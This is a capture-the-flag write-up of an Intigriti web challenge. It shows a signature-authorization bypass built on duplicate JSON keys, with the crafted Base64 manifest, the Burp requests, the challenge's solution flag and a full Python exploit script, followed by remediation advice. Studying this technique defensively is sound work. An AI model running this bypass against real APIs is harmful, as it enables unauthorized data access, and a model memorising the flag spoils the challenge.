








# 🏆 Intigriti July 2026 CTF Writeup: Authorization Bypass via JSON Duplicate Key Parsing Inconsistency (TOCTOU)

> **Challenge:** [Intigriti July 2026 Challenge (0726)](https://challenge-0726.intigriti.io/)  
> **Challenge Creator:** [zerodaysbooks (@silent_web3_)](https://x.com/silent_web3_)  
> **Vulnerability Category:** Broken Access Control / TOCTOU via JSON Parser Confusion  
> **Difficulty:** Medium / Tier 2  

---

##  Executive Summary
In this monthly Intigriti challenge, participants are tasked with exploring **Registry Observatory**, a secure compatibility assessment tool that generates signed compatibility reports for software packages. The primary objective is to bypass namespace trust boundaries to retrieve a protected system report containing the flag—without altering registry data or performing infrastructure attacks.

By uncovering a hidden system package (`@core/security-notes`) through API ledger enumeration and identifying a **JSON Duplicate Key Parsing Inconsistency** across microservice endpoints, we successfully bypassed cryptographic signature authorization checks. This allowed us to forge an approved manifest and extract the secret flag from the internal system report.

---

## 1. Reconnaissance & Application Overview

### Application Architecture & Workspace
Upon navigating to the application and authenticating, we are presented with our **Registry Observatory Workspace**. The platform isolates user activities by assigning each account an exclusively owned **Private Namespace** (e.g., `@onevily-8446a555`), complete with default sample packages (`compat-sample`, `hello-world`, and `legacy-adapter`).


*Figure 1: The main Registry Observatory workspace overview displaying our assigned private namespace and read-only report log.*

The core mechanics of the platform revolve around the **Manifest Studio**, where users can generate compatibility reports through a secure cryptographic workflow:


*Figure 2: Exploring the Manifest Studio alongside Burp Suite HTTP history to analyze Base64 manifest structure and signature approvals.*

1. **Preview Manifest (`POST /api/manifests/preview`):** Validates package structure and builds a Base64 encoded JSON manifest representation (`manifest_b64`).
2. **Request Approval (`POST /api/manifests/sign`):** Verifies that the requesting user owns the namespace mentioned in the manifest. If approved, it returns a cryptographic signature bundle (`approval_id`, `manifest_sha256`, `nonce`, `expires_at`, and `signature`).
3. **Run Preflight (`POST /api/publications`):** Consumes the `manifest_b64` and signature bundle, performs a read-only compatibility check against the specified target in the registry, and prepares a publication report.

---

## 2. Hunting the Target: The Observatory Archive Clues

To capture the flag, we needed to discover what hidden or restricted software packages existed inside the registry. We turned our attention to the **Observatory Archive** section, which divides registry historical data into three distinct tabs backed by specific API ledgers:

1. **Transfer Notices (`GET /api/observatory/advisories`):**
   While browsing the notices, we spotted record **`CR-17`**, which explicitly noted that a record had been moved into the **platform-maintained scope: `core`**.

   
   *Figure 3: Discovering that record CR-17 belongs to the restricted platform-maintained scope `"core"`.*

2. **Component Index (`GET /api/observatory/catalog`):**
   Switching to the component catalog, we cross-referenced record **`CR-17`** and discovered its exact package name: **`security-notes`** (marked as a *Restricted maintenance component*).

   
   *Figure 4: The Component Index reveals that CR-17 maps to the restricted package `"security-notes"`.*

3. **Compatibility Ledgers (`GET /api/observatory/references`):**
   Querying the final references tab gave us the baseline version recorded for **`CR-17`**, which was listed as version **`1.0.0`**.

### Combining the Puzzle Pieces:
Connecting the clues from record **`CR-17`** uncovered our high-value target:
* **Scope:** `core`
* **Package Name:** `security-notes`
* **Version:** `1.0.0`

When attempting to query the API directly for `/api/packages/core/security-notes`, the backend replied with:
```json
{"error": "System package details are restricted."}
```
This explicit access rejection confirmed that `@core/security-notes` existed and served as the vault housing our target flag!

---

## 3. The Trust Boundary & Authorization Blocks

Our next objective was to force the platform to generate a readable preflight report for `@core/security-notes`. However, attempting to sign a manifest directly targeting `"scope": "core"` via the Manifest Studio failed immediately:
```json
{"error": "Manifest could not be approved."}
```

The signing endpoint (`/api/manifests/sign`) enforces a strict authorization trust boundary: it rejects any manifest where the `"scope"` value does not equal the user's assigned private namespace (`onevily-8446a555`). Furthermore, we cannot simply invoke `/api/publications` directly, because it refuses to run preflight checks without a valid cryptographic signature bundle generated by `/api/manifests/sign`.

---

## 4. Vulnerability Discovery: TOCTOU via JSON Duplicate Keys

### Understanding RFC 8259 & Parser Confusion
Under the canonical JSON specification (*RFC 8259*), the operational behavior when an object contains duplicate keys (e.g., two identical `"package"` properties) is **undefined**. Consequently, different software libraries and microservice runtimes handle duplicate keys differently:
* **First-Key Evaluation / Early Return:** Many validation firewalls and authorization guards iterate sequentially until they match the *first* required key, completely ignoring any subsequent duplicates.
* **Key Overwriting (Standard JavaScript / Node.js):** Engines like V8 (`JSON.parse()`) process JSON streams from top to bottom, meaning later duplicate keys silently *overwrite* earlier occurrences. The **last** matching key always dominates in memory.

### The Attack Pathway in Registry Observatory
By examining how the Manifest Signing and Publication Execution services handle our Base64-encoded JSON payload (`manifest_b64`), we identified a high-impact **Time-of-Check to Time-of-Use (TOCTOU)** vulnerability caused by parser inconsistency:

1. **Time-of-Check (`/api/manifests/sign`):** When authorizing the manifest for cryptographic signature, the security guard inspects only the **first** `"package"` key in our JSON object. By providing our authorized namespace (`onevily-8446a555`) in the first key, the verification passes and the server signs the raw Base64 payload!
2. **Time-of-Use (`/api/publications`):** When launching the actual compatibility report, the backend execution engine processes the signed Base64 payload using standard JavaScript key-overwriting. The **second** `"package"` block overwrites the first in memory, causing the platform to execute the report against `@core/security-notes`!

---

## 5. Step-by-Step Exploitation in Burp Suite

### Step 1: Authentication & Session Setup
We authenticated via `POST /api/login` using our registered account credentials (*note: insert your own registered challenge credentials here*) to obtain our valid session cookie (`cy_session`), and captured our required `X-Csrf-Token` header value from `/api/me`.

### Step 2: Crafting the Malicious Dual-Key Manifest
We formulated a raw JSON payload containing two duplicate `"package"` properties:
```json
{
  "package": {"scope": "onevily-8446a555", "name": "hello-world", "version": "1.0.0"},
  "package": {"scope": "core", "name": "security-notes", "version": "1.0.0"},
  "metadata": {"description": "test", "visibility": "private"},
  "operation": "preflight"
}
```

Encoding this entire dual-key JSON structure into **Base64** resulted in our exploit string:
```
ewogICJwYWNrYWdlIjogeyJzY29wZSI6ICJvbmV2aWx5LTg0NDZhNTU1IiwgIm5hbWUiOiAiaGVsbG8td29ybGQiLCAidmVyc2lvbiI6ICIxLjAuMCJ9LAogICJwYWNrYWdlIjogeyJzY29wZSI6ICJjb3JlIiwgIm5hbWUiOiAic2VjdXJpdHktbm90ZXMiLCAidmVyc2lvbiI6ICIxLjAuMCJ9LAogICJtZXRhZGF0YSI6IHsiZGVzY3JpcHRpb24iOiAidGVzdCIsICJ2aXNpYmlsaXR5IjogInByaXZhdGUifSwKICAib3BlcmF0aW9uIjogInByZWZsaWdodCIKfQ==
```


*Figure 5: Inspecting our crafted Base64 payload in Burp Suite Inspector, clearly illustrating the injected duplicate `"package"` key targeting `@core/security-notes`.*

---

### Step 3: Forging Signature Approval in Burp Repeater
We transmitted our Base64 exploit string to `POST /api/manifests/sign` in Burp Repeater. Because the authorization check evaluated only our first package key (`@onevily-8446a555`), the endpoint returned a `201 Created` status code containing a completely legitimate signature bundle!

```http
POST /api/manifests/sign HTTP/2
Host: challenge-0726.intigriti.io
Cookie: cy_session=<YOUR_COOKIE>
X-Csrf-Token: <YOUR_CSRF_TOKEN>
Content-Type: application/json

{"manifest_b64": "ewogICJwYWNr..."}
```


*Figure 6: Bypassing namespace authorization checks to forge a valid cryptographic approval signature for our payload.*

From the successful response, we extracted the signed approval attributes:
* `"approval_id": "4d485f5b-8050-4a47-bd36-a27d2549eeae"`
* `"manifest_sha256": "5b38bdeb5aca57b2b15515b6e6af13c34254c7ad372b51c0c4035834940e519a"`
* `"nonce": "N8TdKFGMkOuJBr_7pje4jAq0_E9uC8nQpgST8a7JxYw"`
* `"expires_at": 1785175138`
* `"signature": "MjxA/HKOcir2iPiNuxxbUr4ypq0lKAN2YDIMWdfdcyIRbkCchEiOFymaF6DJwgerblvUeHI8/mR8QtaYh2jBBA=="`

---

### Step 4: Triggering Protected Preflight Execution
Next, we forged a request to `POST /api/publications` providing the exact same `manifest_b64` string accompanied by our granted cryptographic signature metadata. The downstream execution engine verified the signature, deserialized the manifest, let the second package key overwrite the first, and generated a preflight report for `@core/security-notes`!

```http
POST /api/publications HTTP/2
Host: challenge-0726.intigriti.io
Cookie: cy_session=<YOUR_COOKIE>
X-Csrf-Token: <YOUR_CSRF_TOKEN>
Content-Type: application/json

{
  "manifest_b64": "ewogICJwYWNr...",
  "approval_id": "4d485f5b-8050-4a47-bd36-a27d2549eeae",
  "manifest_sha256": "5b38bdeb5aca57b2b15515b6e6af13c34254c7ad372b51c0c4035834940e519a",
  "nonce": "N8TdKFGMkOuJBr_7pje4jAq0_E9uC8nQpgST8a7JxYw",
  "expires_at": 1785175138,
  "signature": "MjxA/HKOcir2iPiNuxxbUr4ypq0lKAN2YDIMWdfdcyIRbkCchEiOFymaF6DJwgerblvUeHI8/mR8QtaYh2jBBA=="
}
```


*Figure 7: The publications execution engine evaluates the second key and confirms publication report readiness (`e44c54ca-4c30-4f8f-831e-96678e0764f0`).*

The server responded with `"status": "ready"` and provided our newly generated publication ID (`e44c54ca-4c30-4f8f-831e-96678e0764f0`).

---

### Step 5: Extracting the Flag! 🏁
To conclude our attack, we submitted a `GET` request to retrieve the finished preflight report from `/api/publications/e44c54ca-4c30-4f8f-831e-96678e0764f0`. 

Because preflight reports disclose package release summaries, the restricted system release notes for `@core/security-notes` were exposed completely, leaking the winning flag!

```http
GET /api/publications/e44c54ca-4c30-4f8f-831e-96678e0764f0 HTTP/2
Host: challenge-0726.intigriti.io
Cookie: cy_session=<YOUR_COOKIE>
```

**JSON Response:**
```json
{
  "publication_id": "e44c54ca-4c30-4f8f-831e-96678e0764f0",
  "target": "@core/security-notes",
  "version": "1.0.0",
  "status": "ready",
  "report": {
    "target": "@core/security-notes",
    "compatibility": "Read-only preflight completed.",
    "release_notes": "INTIGRITI{019f8700-4613-74fb-923e-781903e4bee9}",
    "latest_version": "1.0.0",
    "package_exists": true
  }
}
```


*Figure 8: Successfully extracting the challenge flag from the release notes field in Burp Suite.*

### 🎉 **Flag Captured:**
```text
INTIGRITI{019f8700-4613-74fb-923e-781903e4bee9}
```

---

## 6. Automated Python Exploit Script
To reliably demonstrate and reproduce this vulnerability without manual Burp Suite intervention, I developed an automated Python 3 proof-of-concept exploit:

```python
#!/usr/bin/env python3
"""
Intigriti Challenge 0726 — Automated PoC Exploit
Vulnerability: JSON Duplicate Key Authorization Bypass (TOCTOU)
"""

import requests
import json
import base64
import sys

BASE_URL = "https://challenge-0726.intigriti.io"
USERNAME = "YOUR_USERNAME"  # Replace with your registered challenge username
PASSWORD = "YOUR_PASSWORD"  # Replace with your registered challenge password

s = requests.Session()

print("[*] Step 1: Authenticating to challenge platform...")
r = s.post(f"{BASE_URL}/api/login", json={"username": USERNAME, "password": PASSWORD})
if "error" in r.text or r.status_code != 200:
    print(f"[-] Login failed: {r.text}")
    sys.exit(1)

namespace = r.json()["user"]["namespace"]
csrf = s.get(f"{BASE_URL}/api/me").json()["csrf_token"]
print(f"[+] Authenticated! Assigned Namespace: {namespace}")
print(f"[+] CSRF Token Obtained: {csrf[:16]}...")

print("\n[*] Step 2: Constructing dual-key payload (TOCTOU trigger)...")
# First package key passes authorization, second key executes on restricted target
manifest_raw = '''{
    "package": {"scope": "''' + namespace + '''", "name": "hello-world", "version": "1.0.0"},
    "package": {"scope": "core", "name": "security-notes", "version": "1.0.0"},
    "metadata": {"description": "automated bypass", "visibility": "private"},
    "operation": "preflight"
}'''

manifest_b64 = base64.b64encode(manifest_raw.encode()).decode()

print("\n[*] Step 3: Requesting cryptographic approval signature...")
headers = {"x-csrf-token": csrf}
r = s.post(f"{BASE_URL}/api/manifests/sign", json={"manifest_b64": manifest_b64}, headers=headers)
if "error" in r.text:
    print(f"[-] Signing failed: {r.text}")
    sys.exit(1)

approval = r.json()
print(f"[+] Approval Granted! Approval ID: {approval['approval_id']}")

print("\n[*] Step 4: Submitting signed payload to publications engine...")
payload = {
    "manifest_b64": manifest_b64,
    "approval_id": approval["approval_id"],
    "manifest_sha256": approval["manifest_sha256"],
    "nonce": approval["nonce"],
    "expires_at": approval["expires_at"],
    "signature": approval["signature"]
}
r = s.post(f"{BASE_URL}/api/publications", json=payload, headers=headers)
pub_id = r.json()["publication_id"]
print(f"[+] Report generated! Publication ID: {pub_id}")

print("\n[*] Step 5: Fetching restricted system release notes...")
report = s.get(f"{BASE_URL}/api/publications/{pub_id}").json()

flag = report["report"]["release_notes"]
print("\n" + "="*55)
print(f"  🚩 CAPTURED FLAG: {flag}")
print("="*55)
```

---

## 7. Remediations & Real-World Lessons

### Why Does This Happen in Real-World Software?
This parsing architecture discrepancy is reminiscent of famous production vulnerabilities such as **CVE-2017-12635 (Apache CouchDB)**, where dual Erlang JSON parsing libraries evaluated duplicate keys differently, allowing network attackers to self-assign super-administrator privileges. 

In modern cloud-native architectures, this vulnerability class often surfaces when an API Gateway or security proxy (built in Go or Python) evaluates an incoming transaction request differently than a downstream business execution service (built in Node.js or Java).

### Recommended Developer Remediations:
1. **Strict Duplicate Key Rejection:** Configure JSON deserializers, schema validation middleware, and API endpoints to explicitly throw a syntax error and reject any JSON payload containing duplicate keys at any depth (e.g., enabling `uniqueKeys: true` in libraries such as `ajv`).
2. **Single-Parse Canonical Pipeline:** Avoid forwarding raw, un-parsed string payloads across multiple internal services where each component deserializes independently. Deserialize the manifest **exactly once** during authentication verification, and pass a normalized, immutable, canonical data object to downstream execution engines.
3. **Downstream Target Re-Validation:** Ensure that execution endpoints (such as `/api/publications`) independently re-verify that the resolved execution target belongs to the authenticated caller's permitted scope before running operations, rather than relying exclusively on cryptographic signature validities.

---

### Conclusion & Acknowledgements
Thank you to **Intigriti** and **zerodaysbooks** for constructing an insightful, polished, and realistic API application logic challenge! Examining microservice parsing discrepancies and evaluating trust boundary behaviors across multi-stage signature workflows is an essential methodology for real-world application security research and bug bounty hunting.

Happy Hacking! <3
